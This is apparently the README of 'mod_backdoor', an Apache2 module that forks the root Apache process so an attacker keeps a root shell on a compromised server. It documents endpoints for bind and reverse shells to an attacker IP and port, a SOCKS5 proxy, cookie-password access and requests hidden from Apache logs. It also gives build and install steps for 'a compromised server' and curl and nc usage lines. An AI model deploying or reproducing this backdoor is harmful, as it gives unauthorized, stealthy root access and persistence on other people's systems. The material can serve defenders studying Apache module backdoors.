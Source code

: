 # Apache2 mod_backdoor

mod_backdoor is a stealth backdoor using an Apache2 module.<br/>
The main idea is to fork() the primary Apache2 process just after it has loaded its config.
Since it's forked before the root user transfers the process to www-data, you can execute command as root.<br/>
As Apache2 loads its configuration only when you (re)start it, the challenge was to never let die this 
forked root apache2 process, to let us interact as root with the compromised system.

# Features

* Bind TTY Shell
* Reverse Shell (TTY , Native, PHP, Perl, Python, Ruby)
* High stability and reliability, each shell spawns a new forked independent root process attached to PID 1
* Socks5 proxy
* Password Protection through cookie headers
* Ping module to know if its still active
* Bypass logging mechanism. Each request to the backdoor module **are not logged** by Apache2.

# Demo
[![asciicast](https://asciinema.org/a/mOzJ74TmXJ5IZ5u48rDFx7MqQ.svg)](https://asciinema.org/a/mOzJ74TmXJ5IZ5u48rDFx7MqQ)

# Description

* The password is send through Cookie headers: `Cookie: password=backdoor`. It's defined with `#define` 
in the beginning of mod_backdoor.c, so you could easily edit it.<br/>

* Each following requests must contain this password to interact with the module.<br/>
* Each request containing this cookie **will not be logged by Apache** if the module is running. <br/>

* Each shell spawns **attached to PID** 1 and **is removed from apache2 cgroup**.
 It means it's possible to **restart/stop apache2.service from a spawned shell** (not true for 
 TTY shells because an apache2 process is needed to do the bidirectional communication between socket
 and pty). It also improves stealth, shells are no longer related to apache2.service. <br/>

### Bind TTY Shell
The endpoint  `http[s]://<TARGET>/bind/<PORT>` binds a listening port on `<TARGET>:<PORT>` <br/>
When a connection is initiated to the listening port, the port closes. <br/>
`forkpty()` is used to obtain a native TTY shell, working with an IPC UNIX socket to communicate 
between forked TTY process and the new socket you just opened.<br/>
Shells could be easily upgraded with the famous trick:<br/>
 `CTRL-Z --> stty raw -echo --> fg --> reset`

### Reverse TTY Shell
It works like the bind shell, the endpoint `http[s]://<TARGET>/revtty/<IP>/<PORT>` returns a TTY
shell to `<IP>:<PORT>` <br/>


### Reverse Shell (No TTY)
The endpoint `http[s]://<TARGET>/reverse/<IP>/<PORT>/<PROG>` returns a shell to `<IP>:<PORT>`. <br/>
`<PROG>` must be one of these: <br/>
<p align="center">

| Native   | External  |    
| :------: | :--------:|
|   sh     |    php    |
|   bash   |    python |
|   dash   |    ruby   |
|   ash    |    perl   |
|   tcsh   |           |
|   ksh    |           |

</p>

`<PROG>` must be in lower-case.<br/>
PHP uses the `exec` function.<br/>
Ruby isn't using `/bin/sh`.

### Socks5 proxy
Source code comes from https://github.com/rofl0r/microsocks <br/>
The endpoint `http[s]://<TARGET>/proxy/<PORT>/<USER>` opens a socks5 proxy on `<PORT>`. 
`<USER>` is optional. If you set it, it activates the auth mode. Password is the same as the mod_backdoor.<br/>
Once a specific ip address authed successfully with `user:pass`, it is added to a whitelist and may use the proxy without auth. 
This is handy for programs like firefox that don't support `user:pass` auth.<br/>
For it to work you'd basically make one connection with another program that supports it, and then you can use firefox too.<br/>
Example:<br/>
1. `curl -H 'Cookie: password=backdoor' http://<TARGET>/proxy/1337/vlad` <br/>
--> Start socks proxy on port 1337 for `vlad` user 
2. `curl -x socks5://vlad:password=backdoor@<TARGET>:1337 https://www.google.com` <br/>
--> Register your IP address
3. You could now use it without auth
4. When you're done, you can kill the socks proxy by sending `imdonewithyou` in a new socket <br/>
--> `echo "imdonewithyou" | nc <TARGET> 1337`

### Ping module
The endpoint `http[s]://<TARGET>/ping` tells you if the module is currently working.

# Notes
Apache2 Module Backdoor is inspired from Ringbuilder, created by Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br/>
More info about Ringbuilder:<br/>
https://github.com/TarlogicSecurity/mod_ringbuilder <br/>
https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>

Socks5 code was adapted from https://github.com/rofl0r/microsocks <br/>
<br/>
Special thanks to [@Ug_0Security](https://twitter.com/Ug_0Security)

# Builds
For development :<br/>
* `apxs -i -a -c mod_backdoor.c sblist.c sblist_delete.c server.c -Wl,-lutil` <br/>
 `-Wl,-lutil` used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Compile it for the desired arch and retrieve the mod_backdoor.so or<br/>
get it from the `build/` folder (compiled for: Apache/2.4.41 (Debian)).
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Copy backdoor.load to `/etc/apache2/mod-available/backdoor.load`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))

## Disclaimer
This project was created only for learning purpose.<br/>
Usage of mod_backdoor for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
